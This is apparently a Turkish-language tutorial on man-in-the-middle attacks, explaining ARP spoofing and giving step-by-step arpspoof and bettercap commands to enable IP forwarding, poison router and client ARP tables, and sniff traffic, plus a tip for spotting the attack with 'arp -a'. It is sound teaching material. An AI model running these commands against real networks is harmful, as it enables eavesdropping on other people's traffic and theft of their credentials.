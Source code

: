 ## 🕵️‍♂️ Man in the Middle Saldırısı Nedir?
- Normalde sunucu ve client arasındaki iletişim şu şekilde olur:
	- 🧑‍💻 Client bir web sitesine istek yapar, bu isteği router'a iletir.
	- 📡 Router isteği ilgili web sitesine iletir, yanıtı alır.
	- 📬 Yanıtı alan router bu yanıtı client'e iletir.
---
- 🧑‍💻 Bu saldırı ile hacker şunu amaçlar:
	- Client bir web sitesine istek yapar, bu isteği router'a iletir.
	- 🕶️ Hacker kendini router gibi göstererek isteği alır ve router'a iletir.
	- Router isteği ilgili web sitesine iletir ve yanıtı alır.
	- 📬 Yanıtı alan router client'e iletir.
	- 🕶️ Hacker kendini client gibi göstererek yanıtı alır ve client'e iletir.
---
- Yani 🧑‍💻 kullanıcıya karşı router, 📡 router'a karşı kullanıcı gibi davranır.  
  Router ve kullanıcının tam ortasına girer ve böylece tüm web trafiği hacker'ın elinden geçer.  
  Böylece bu bilgilerin içeriğini görüntüleyebilir. 🔍
---
- Bu kandırma işlemi **🧬 ARP spoofing** ile yapılır.
	- 🧾 **ARP**, IP ve MAC adreslerinin eşleşmesini sağlayan bir protokoldür.  
	  Router tüm cihazlara **ARP request** göndererek "Bu IP kimin?" diye sorar.  
	  IP'ye sahip olan cihaz, **ARP reply** ile MAC adresini router'a gönderir.
	- ⚠️ **ARP request** gerekmeksizin **ARP reply** gönderilebilmesi sayesinde router kandırılabilir. (gerekli bilgiler netdiscover veya nmap ile elde edilebilir) 
	  Bu işleme **🎭 ARP spoofing** denir.

---

## 🎭 Arpspoof Aracı ile ARP Spoofing Yapmak

- 🛠️ Öncelikle **IP Forward** özelliği açılmalıdır:
  ```bash
  echo 1 > /proc/sys/net/ipv4/ip_forward
  ```
  📌 Bu komut ile sistem, gelen veriyi bir başka cihaza yönlendirebilir hâle gelir (değeri `1` olarak ayarlanır).

---

- 🔁 **Router'ı kandırmak için:**
  ```bash
  arpspoof -i <interface> -t <target router ip> <target client ip>
  ```

- 🔁 **Client'ı kandırmak için:**
  ```bash
  arpspoof -i <interface> -t <target client ip> <target router ip>
  ```

- 🧪 Bu iki komut **iki ayrı terminal** üzerinden **eşzamanlı** olarak çalıştırılmalıdır.

---

- 🧾 Kontrol etmek için hedef Windows bilgisayarda şu komut çalıştırılabilir:
  ```bash
  arp -a
  ```
- 📋 **ARP etkileşimi yapılan cihazların IP ve MAC adresleri** listelenir.

- ⚠️ Eğer cihaz ARP spoofing saldırısı altındaysa, **iki farklı IP adresinde aynı MAC adresi** görülür.

---

## 🧠 Bettercap Aracı ile ARP Spoofing Yapmak

- 📌 **Bettercap**, ağ analizinden saldırı simülasyonlarına kadar birçok işlemi yapabilen güçlü bir araçtır.

- **Başlatmak için:**
  ```bash
  bettercap -iface <interface>
  ```

---

### 🔎 Genel Kullanım Bilgisi

- Mevcut modülleri ve komutları listelemek için:
  ```bash
  help
  ```

- Belirli bir modül hakkında detaylı bilgi almak için:
  ```bash
  help <modül adı>
  ```

---

### 🌐 Ağdaki Cihazları Keşfetme

1. **Ağda aktif cihazları keşfetmek için:**
   ```bash
   net.probe on
   ```

2. **Tüm tespit edilen cihazları tablo halinde listelemek için:**
   ```bash
   net.show
   ```

---

### 🎭 ARP Spoofing Yapılandırması

- **ARP Spoofing modülünü yapılandırmak için:**
  ```bash
  set arp.spoof.fullduplex true
  set arp.spoof.internal true
  set arp.spoof.target <hedef cihaz ip>
  ```

  > 💡 `help arpspoof` komutu ile bu modül hakkında daha fazla bilgi alınabilir.

- **Saldırıyı başlatmak için:**
  ```bash
  arp.spoof on
  ```

- **Ağ trafiğini dinlemek için:**
  ```bash
  net.sniff on
  ```

---

📝 **Not:** Bettercap’in modüler yapısı sayesinde sadece ARP Spoofing değil, DNS Spoofing, HTTPS bypass ve çok daha fazlası gerçekleştirilebilir. Ancak bu işlemler yalnızca izinli ortamlarda ve etik amaçlarla yapılmalıdır ⚠️.


## HTTPS Logları
- Arp Spoofing ile dinleme yapılırken kullanıcı eğer HTTP kullanan bir siteye kullanıcı adı şifre gibi bilgiler gönderirse bunlar rahatlıkla okunabilir. Ancak HTTPS ile şifreleniyorsa işler değişir.